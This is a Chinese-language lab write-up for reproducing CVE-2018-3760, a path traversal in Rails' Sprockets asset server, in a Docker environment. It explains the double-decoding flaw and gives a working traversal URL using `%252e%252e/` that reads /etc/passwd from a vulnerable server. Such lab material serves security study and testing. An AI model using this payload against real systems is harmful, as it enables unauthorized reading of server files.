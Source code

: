# Ruby On Rails 路径穿越漏洞（CVE-2018-3760）

Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用`%252e%252e/`来跨越到根目录，读取或执行目标服务器上任意文件。

参考链接：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 环境搭建

启动一个用Ruby On Rails脚手架生成的默认站点：

```
docker compose up -d
```

访问`http://your-ip:3000`即可查看到欢迎页面。

## 漏洞复现

直接访问`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`，将会报错，因为文件`/etc/passwd`不在允许的目录中：

![](1.png)

我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如`/usr/src/blog/app/assets/images`，然后使用`%252e%252e/`向上一层跳转，最后读取`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)
